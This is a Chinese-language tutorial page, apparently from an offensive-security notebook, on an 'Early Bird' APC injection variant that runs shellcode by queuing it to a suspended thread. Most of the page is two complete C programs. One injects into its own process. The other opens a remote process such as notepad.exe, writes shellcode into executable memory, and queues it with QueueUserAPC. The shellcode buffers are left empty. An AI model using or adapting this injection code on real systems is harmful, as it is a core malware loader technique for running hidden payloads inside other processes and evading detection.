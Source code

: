 # Early Bird & CreateThread or CreateRemoteThread

在前面的[Early Bird](early-bird.md)篇我们知道，在恢复挂起线程时程序会调用NtTestAlert函数对APC队列进行处理，试想，我们在进程内创建一个挂起的线程，然后往这个线程内插入用户apc，随后恢复进程，是不是同样可以在进程执行入口点前接管进程?

## 实现思路

1. 创建一个挂起的线程
2. 写入shellcode
3. 插入apc队列
4. 恢复线程

## 代码实现

由于进程会在入口点执行前被接管，所以我们其实并不用指向一个真正有效的入口点。

* 本进程代码执行:

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] = 
"";

int main() {

	HANDLE hThread = NULL;
	HANDLE hProcess = 0;
	DWORD ProcessId = 0;
	LPVOID AllocAddr = NULL;


	hProcess = GetCurrentProcess();
	AllocAddr = VirtualAllocEx(hProcess, 0, sizeof(shellcode) + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, AllocAddr, shellcode, sizeof(shellcode) + 1, 0);


	hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)0xfff, 0, CREATE_SUSPENDED, NULL);

	QueueUserAPC((PAPCFUNC)AllocAddr, hThread, 0);
	ResumeThread(hThread);
	WaitForSingleObject(hThread,INFINITE);
	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;

}
```

* 远程线程注入:

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] = 
"";

int main() {

	HANDLE hThread = NULL;
	HANDLE hProcess = 0;
	DWORD ProcessId = 0;
	LPVOID AllocAddr = NULL;


	//hProcess = GetCurrentProcess();
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, NULL, 12524);//notepad.exe
	AllocAddr = VirtualAllocEx(hProcess, 0, sizeof(shellcode) + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, AllocAddr, shellcode, sizeof(shellcode) + 1, 0);


	hThread = CreateRemoteThread(hProcess,0, 0, (LPTHREAD_START_ROUTINE)0xfff, 0, CREATE_SUSPENDED, NULL);

	QueueUserAPC((PAPCFUNC)AllocAddr, hThread, 0);
	ResumeThread(hThread);
	//WaitForSingleObject(hThread,INFINITE);
	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;

}
```

![](../.gitbook/assets/image%20%2822%29.png)

## 待解决问题

由于未指定有效的线程入口点,在apc执行结束后，进程会崩溃退出。

可以用指定一个dll入口点解决。


